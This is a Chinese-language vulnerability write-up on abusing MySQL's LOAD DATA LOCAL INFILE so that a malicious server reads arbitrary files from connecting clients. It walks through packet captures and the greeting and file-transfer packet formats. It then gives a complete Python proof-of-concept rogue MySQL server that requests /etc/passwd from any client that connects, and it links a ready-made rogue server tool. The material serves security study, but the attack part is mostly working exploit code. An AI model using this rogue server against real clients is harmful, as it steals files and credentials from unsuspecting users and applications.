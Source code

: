 ```yaml
---
title: "MySQL LOAD DATA 读取客户端任意文"
id: zhfly3036
---
```


# MySQL LOAD DATA 读取客户端任意文

## 一、漏洞简介

### LOAD DATA INFILE

mysql的LOAD DATA INFILE语句主要用于读取一个文件的内容并且存入一个表中。通常有两种用法，分别是：

```
load data infile "/etc/passwd" into table TestTable fields terminated by '分隔符';
load data local infile "/etc/passwd" into table TestTable fields terminated by '分隔符'; 
```

第一个语句是读取服务器上的/etc/passwd文件并存入TestTable表中，第二个语句是读取客户端本地的/etc/passwd文件并存入TestTable表中。我们要利用的是LOAD DATA LOCAL INFILE。
官方文档中也提出了这个问题（PS：Google翻译的不是很准确）

![image](../img/5bdfa0c773b171f6844667799fc97f70.png)

## 二、漏洞影响

## 三、复现过程

### 分析数据包

测试环境：
MacOS 10.14
Mysql 5.7.21

使用tcpdump抓取3306端口的数据包

![image](../img/0a6f9dd8b1cf14711649c5b5c0aeab92.png)

#### 1.服务器向客户端发送greeting问候包，包含服务端banner信息

![image](../img/3a57ee6de6e1d96d256ec4904bbf0b1c.png)

#### 2.客户端发送登陆请求包，包含用户名密码，以及含有LOAD DATA LOCAL选项的客户端banner信息。

![image](../img/8a7a74b45472dd30b8e7e4fdc24fc8b8.png)

#### 3.然后是客户端初始化的一些查询，比如select database(); select @@version_comment;

![image](../img/b072cf8d88eb833705a0bc68d65b8f7a.png)

#### 4.找到我们执行的LOAD DATA INFILE数据包，第一个包看起来比较正常，是客户端发起的Request Que

![image](../img/b072cf8d88eb833705a0bc68d65b8f7a.png)

#### 5.但是紧接着服务器返回了一个包含刚才所要LOAD DATA INFILE的文件名/Users/smi1e/Desktop/test.txt的数据包。

![image](../img/5e2ba220df1ff2c54f7f5827e992b51b.png)

#### 6.然后客户端向服务端发送了/Users/smi1e/Desktop/test.txt文件的内容：

![image](../img/3d8a2bc13f85bf9b19c0f43a0c505f19.png)

如果我们在客户端发送查询之后，返回一个Response TABULAR数据包，即服务端向客户端发送了文件名的数据包，如果我们把这个文件名设置成我们想要读取的文件，那么我们就可以读取客户端的任意文件了。正如官方文档所写的 In theory, a patched server could be built that would tell the client program to transfer a file of the server's choosing rather than the file named by the client in the [LOAD DATA](https://dev.mysql.com/doc/refman/8.0/en/load-data.html "13.2.7 LOAD DATA Syntax") statement.
也就是说想要读取哪个文件是服务端说了算，跟客户端所request的文件名没有关系。

最重要的是伪造的服务端可以在任何时候回复一个file-transfer 请求，不一定非要是在客户端发送LOAD DATA LOCAL数据包的时候。
不过如果想要利用此特性，客户端必须具有CLIENT_LOCAL_FILES即(Can use LOAD DATA LOCAL)属性。如果没有的话，就要在连接mysql的时候加上--enable-local-infile。

### 搭建MySQL服务端

主要分为

*   向 MySQL Client 发送Server Greeting
*   等待 Client 端发送一个Query Package
*   回复一个file transfer请求

我们需要知道如何构造File Transfer和Server Greeting数据包，这些包的格式都可以在 MySQL 的官方文档上找到。

File Transfer数据包格式：Protocol::LOCAL_INFILE_Request

并且我们需要等待一个来自 Client 的查询请求，才能回复这个读文件的请求。不过我们在上面看到客户端在连接成功后会自动的做一些初始化的查询。

![image](../img/8c4b7d42e26d890890a2ff513b114522.png)

官方也给了exmaple

```
0c 00 00 01 fb 2f 65 74    63 2f 70 61 73 73 77 64    ...../etc/passwd 
```

数据包的内容其实是从\xfb开始的，这个字节代表包的类型，后面紧跟要读取的文件名。前面的0x0c是数据包的长度（从 \xfb 开始计算），长度后面的三个字节\x00\x00\x01是数据包的序号。

![image](../img/fe7561deac6e8fd75546403ddbae3100.png)

Greeting数据包格式：官方文档，如果不会构造可以直接拷贝抓到的数据包然后改一下长度、文件名之类的。

这里直接拷贝大佬归纳的格式。

```
'\x0a',  # Protocol
'6.6.6-lightless_Mysql_Server' + '\0',  # Version
'\x36\x00\x00\x00',  # Thread ID
'ABCDABCD' + '\0',  # Salt
'\xff\xf7',  # Capabilities, CLOSE SSL HERE!
'\x08',  # Collation
'\x02\x00',  # Server Status
"\x0f\x80\x15", 
'\0' * 10,  # Unknown
'ABCDABCD' + '\0',
"mysql_native_password" + "\0" 
```

### poc

来源于https://www.vesiluoma.com/abusing-mysql-clients/的POC，测了一个多小时都没成功，最后发现里面 #3payload写错了，我给改了下。

```
#!/usr/bin/python
#coding: utf8
import socket

# linux :

#filestring = “/etc/passwd”

# windows:

#filestring = “C:\Windows\system32\drivers\etc\hosts”

HOST = “0.0.0.0” # open for eeeeveryone! ![:slight_smile:](../img/7d4cf85dfa4bece316c062f606cf7aa5.png ":slight_smile:")

PORT = 3306

BUFFER_SIZE = 1024

#1 Greeting

greeting = “\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00”

#2 Accept all authentications

authok = “\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00”

#3 Payload

#数据包长度

payloadlen = “\x0c”

padding = “\x00\x00”

payload = payloadlen + padding +  “\x01\xfb\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64”

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

s.bind((HOST, PORT))

s.listen(1)

while True:

conn, addr = s.accept()

```
print 'Connection from:', addr
conn.send(greeting)
while True:
    data = conn.recv(BUFFER_SIZE)
    print " ".join("%02x" % ord(i) for i in data)
    conn.send(authok)
    data = conn.recv(BUFFER_SIZE)
    conn.send(payload)
    print "[*] Payload send!"
    data = conn.recv(BUFFER_SIZE)
    if not data: break
    print "Data received:", data
    break
# Don't leave the connection open.
conn.close() 
``` 
```

![image](../img/5ae1e445fc021272a5fb91c2234ab18b.png)

ps: 实测 下面这个项目比较好用，上面的poc还需要改长度和内容的16进制值
Github还有一个项目：https://github.com/allyshka/Rogue-MySql-Server

该特性适用于：MySQL Client、 PHP with mysqli、Python with MySQLdb、Python3 with mysqlclient、Java with JDBC Driver等。